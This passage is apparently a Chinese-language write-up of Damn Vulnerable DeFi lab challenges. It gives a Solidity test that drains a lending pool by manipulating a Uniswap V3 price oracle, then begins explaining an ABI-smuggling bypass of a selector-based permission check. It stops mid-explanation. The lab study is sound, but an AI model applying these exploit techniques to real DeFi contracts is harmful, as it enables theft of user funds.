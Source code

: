 [POC](./damn-vulnerable-defi/test/puppet-v3/PuppetV3.t.sol) :

```
    function test_puppetV3() public checkSolvedByPlayer {
       address uniswapRouterAddress = 0xE592427A0AEce92De3Edee1F18E0157C05861564;
        token.approve(address(uniswapRouterAddress), type(uint256).max);
uint256 quote1 = lendingPool.calculateDepositOfWETHRequired(LENDING_POOL_INITIAL_TOKEN_BALANCE);
console.log("beofre quote: ", quote1); //quote:3000000000000000000000000

 
        ISwapRouter(uniswapRouterAddress).exactInputSingle(
            ISwapRouter.ExactInputSingleParams(
                address(token),
                address(weth),
                3000,
                address(player),
                block.timestamp,
                PLAYER_INITIAL_TOKEN_BALANCE, // 110 DVT TOKENS
                0,
                0
            )
        );  
         vm.warp(block.timestamp + 114);
        uint256 quote = lendingPool.calculateDepositOfWETHRequired(LENDING_POOL_INITIAL_TOKEN_BALANCE);
        weth.approve(address(lendingPool), quote);
        console.log("quote: ", quote);
        lendingPool.borrow(LENDING_POOL_INITIAL_TOKEN_BALANCE);
        token.transfer(recovery,LENDING_POOL_INITIAL_TOKEN_BALANCE);
    }
```

### ABI Smuggling

[題目](https://www.damnvulnerabledefi.xyz/challenges/climber/): 這裡有一個權限金庫，裡面存有 100 萬個 DVT 代幣。該金庫允許定期提取資金，也允許在緊急情況下提取所有資金。合約內嵌了一個通用授權方案，只允許已知帳戶執行特定操作。開發團隊已收到負責任的披露，稱所有資金可能被盜取。請從金庫中救出所有資金，並將其轉移到指定的回收帳戶。

過關條件:
- Vault 餘額為0
- 所有VAULT_TOKEN_BALANCE代幣都被轉移到 recovery 錢包

知識點:
- EVM Calldata 組成

解題:
- 在 AuthorizedExecutor.execute() 使用 calldataload 從傳入的 actionData 從calldataOffset位置（100 bytes）開始提取 4 個字節的函數選擇器然後使用 getActionId 查這個 ID 是否被授權.
- deployer 可以執行- sweepFunds 0x85fb709d
player 可以執行- withdraw 0xd9caed12
- 關鍵在下方只要繞過 getActionId檢查, 就可以任意執行 functionCall 了
```
        if (!permissions[getActionId(selector, msg.sender, target)]) {
            revert NotAllowed();
        }

 
        return target.functionCall(actionData);
```
- 準備 payload. 在 execute() 函數的 ABI 編碼中，actionData 是一個動態大小的 bytes 參數。
0x80 是一個偏移量，它指向 actionData 實際數據開始的位置。這個偏移量是相對於整個 calldata 的起始位置來計算的。所以在這邊是0x80
